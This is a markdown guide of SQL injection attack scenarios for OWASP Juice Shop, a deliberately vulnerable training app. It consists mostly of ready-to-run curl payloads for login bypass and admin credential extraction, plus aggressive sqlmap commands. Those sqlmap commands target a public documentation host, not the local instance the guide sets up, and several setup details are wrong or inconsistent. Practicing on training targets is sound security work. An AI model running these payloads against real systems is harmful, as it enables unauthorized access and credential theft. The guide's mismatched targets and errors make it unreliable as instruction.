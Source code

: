 # OWASP Juice Shop SQL Injection Attack Scenarios

## Overview

This document provides comprehensive SQL injection attack scenarios specifically designed for OWASP Juice Shop. These scenarios cover all major SQL injection vulnerabilities present in the application, including authentication bypass, data extraction, and privilege escalation.

## Juice Shop SQL Injection Vulnerabilities

### 1. Login Authentication Bypass (SQLi-1)

**Location:** `/rest/user/login`  
**Vulnerability:** Union-based SQL injection in email field  
**Database:** SQLite

### 2. Product Search Injection (SQLi-2)

**Location:** `/rest/products/search`  
**Vulnerability:** Boolean-based blind SQL injection  
**Database:** SQLite

### 3. Order History Injection (SQLi-3)

**Location:** `/rest/track-order`  
**Vulnerability:** Error-based SQL injection  
**Database:** SQLite

### 4. User Registration Injection (SQLi-4)

**Location:** `/api/Users`  
**Vulnerability:** Second-order SQL injection  
**Database:** SQLite

## Prerequisites

```bash
# Start OWASP Juice Shop
docker run -d -p 3000:3000 bkimminich/juice-shop

# Install required tools
pip3 install requests beautifulsoup4 sqlparse sqlite3
npm install -g juice-shop-cli
```

## Scenario 1: Authentication Bypass via SQL Injection

### Manual Testing

```bash
# Basic authentication bypass
curl -X POST "http://10.30.0.237:3000/rest/user/login" \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@juice-sh.op'\''--","password":"anything"}'

# Union-based injection to extract admin credentials
curl -X POST "http://10.30.0.237:3000/rest/user/login" \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@juice-sh.op'\'' UNION SELECT id,email,password FROM Users WHERE email='\''admin@juice-sh.op'\''--","password":"test"}'
```

### SQLMap Automated Testing

SQLMap is a powerful tool for automating the detection and exploitation of SQL injection vulnerabilities. Here's how to use it step-by-step:

1.  **Identify SQL injection vulnerability:**

    - Use the following command to test for SQL injection in the login form:

      ```bash
      sqlmap -u "https://help.owasp-juice.shop/rest/user/login" --data='{"email":"test@test.com","password":"test"}' --headers="Content-Type: application/json" --level 5 --risk 3 --technique=U
      ```

    - `Explanation:`
      - `-u`: Specifies the target URL.
      - `--data`: Provides the POST data in JSON format.
      - `--headers`: Sets the Content-Type to application/json.
      - `--level 5`: Specifies the level of tests to perform (1-5, where 5 is the most thorough).
      - `--risk 3`: Specifies the risk level (1-3, where 3 includes more aggressive tests).
      - `--technique=U`: Focus on UNION-based attacks which work well with Juice Shop.

2.  **Using known credentials to help SQLMap:**

    - SQLMap works better with valid credentials. Use the admin account:

      ```bash
      sqlmap -u "https://help.owasp-juice.shop/rest/user/login" --data='{"email":"admin@juice-sh.op","password":"admin123"}' --headers="Content-Type: application/json" --level 5 --risk 3 --dbs
      ```

    - This helps SQLMap understand successful vs. failed responses.

3.  **Enumerate databases:**

    - Once SQLMap confirms the vulnerability, enumerate the available databases:

      ```bash
      sqlmap -u "https://help.owasp-juice.shop/rest/user/login" --data='{"email":"test@test.com\' OR 1=1--","password":"test"}' --headers="Content-Type: application/json" --level 5 --risk 3 --dbs
      ```

    - The payload `test@test.com\' OR 1=1--` helps bypass authentication.
